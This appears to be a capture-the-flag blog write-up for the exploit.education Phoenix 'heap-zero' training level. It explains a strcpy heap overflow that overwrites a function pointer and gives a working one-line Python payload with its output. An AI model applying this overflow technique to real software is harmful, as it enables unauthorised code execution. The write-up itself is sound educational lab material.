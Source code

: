 ```yaml
---
layout: post
title: "exploit.education Phoenix - Heap 0x0"
category: CTF 
tagline:
tags: [binary, exploitation, phoenix, wargame, ctf, learning]
---
```

{% include JB/setup %}

# Heap 0

Write-up for: [https://exploit.education/phoenix/heap-zero/](https://exploit.education/phoenix/heap-zero/).

<!--more-->

## Solution

The goal is to redirect execution to the winner() function. This could be achieved by overwriting
the `fp` function pointer of `f`. `f` is located after `d` on the heap. `d` is filled using `strcpy`
without bounds checking. This means we can overflow the `name` field of `d` in order to overwrite
`f->fp`. Note that this will also overwrite control data of `f` which will probably make any call
to `free` crash later on.

Since there is no memory protection (like ASLR), we can simply find out the address of the `winner`
function using objdump:

```
user@phoenix-amd64:/opt/phoenix/i486$ objdump -d heap-zero | grep winner
08048835 <winner>:
```

Now we need the offset of `f->fp` from `d->name` which we can write arbitrary data to.
Given the informative output of the program we can easily deduct the offset by probing
the executable (e.g. using binary search or using a unique pattern). Alternatively,
by looking at the source, we know that the `data` struct uses 64 bytes of memory, followed
by 8 bytes of heap control structure for `f` (prev_size, size). This means the function pointer we want to overwrite
is located 72 bytes after `d->name`. This results in the following exploit:

```
./heap-zero `python -c 'print "A"*72 + "\x08\x04\x88\x35"[::-1]' `
user@phoenix-amd64:/opt/phoenix/i486$ ./heap-zero `python -c 'print "A"*72 + "\x08\x04\x88\x35"[::-1]' `
Welcome to phoenix/heap-zero, brought to you by https://exploit.education
data is at 0xf7e69008, fp is at 0xf7e69050, will be calling 0x8048835
Congratulations, you have passed this level
```

Note that `[::-1]` reverses a string in Python.

